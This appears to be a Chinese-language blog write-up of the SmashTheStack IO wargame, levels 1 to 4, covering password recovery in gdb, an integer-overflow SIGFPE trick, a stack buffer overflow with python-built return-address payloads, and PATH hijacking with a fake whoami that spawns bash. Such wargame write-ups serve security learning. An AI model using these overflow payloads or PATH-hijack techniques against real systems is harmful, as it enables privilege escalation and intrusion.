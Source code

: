 ```yaml
---
layout: post
title:  "Smashthestack IO Writeup"
date:   2014-05-18 22:30:01
categories: writeup
---
```


#SmashTheStack Io Writeup
##level01
先看README.cn<br>
打开/levels/<br>
直接gdb level01<br>
disassemble main<br>
![level01_smash_the_stack](/blog/public/img/140518_level01.png)

将0x10f转换为十进制是271

./level01
输入271即可

##level02
在不能除0的情况下构造sig_FPE
<br>小trick<br>
abx(2**31)/-1 即可
<br>__done__


##level03
stackoverflow
<br>
input的数据没做检查，就直接覆盖了堆栈。这里需要不少的基础知识。首先是函数调用的时候的堆栈情况如下：
<br>
![level03_smash_the_stack](/blog/public/img/140519_level03.png)
<br>
由上图可以看出如果我们覆盖buffer，那么很有可能覆盖到函数指针地址。看函数源码可以得到如果我们将bad的地址换成good的函数指针地址，那么我们就成功了。

显然需要用gdb去调试,r AAAAA，disassemble main，disassemble bad.加断点在call bad之前（0x0804856d）,ebp之前的100个字节打出来x/100x 0x0804851d

找到41414141和bad的地址的差值（76）也就是说我们需要填充76位才能覆盖到bad的返回地址

这里有很多方法：

	./level03 `echo AAA...76个...AA\x74\x84\x04\x08`
	or
	./level03 $(python -c 'print "A"*76+"\x74\x84\x04\x08"')
	or
	(gdb)r $(python -c 'print "A"*76+"\x74\x84\x04\x08"')
	
ok
##level04
改path（export）

建/tmp/下的一个目录，编译一个新的whoami文件

系统找path的时候，由于我们把这个路径放在path最前面，所以系统会直接使用这个文件。

	//for example
	#include <unistd.h>

	int main(int argc, char const *argv[])
	{
		execl("/bin/bash","bash",(char*)0);
		return 0;
	}
	
	
上面的例子执行whoami的时候可以直接实现bash的执行。
###note
1. 如果想测试shellcode遇到栈不可执行的时候，会出现段错误，可以安装execstack小程序，直接-s参数对可执行文件进行处理，即可跳过这一限制
2. shellcode生成可以使用metasploit或者pwntools自己写
3. 注意64位和32位和cpu架构的区别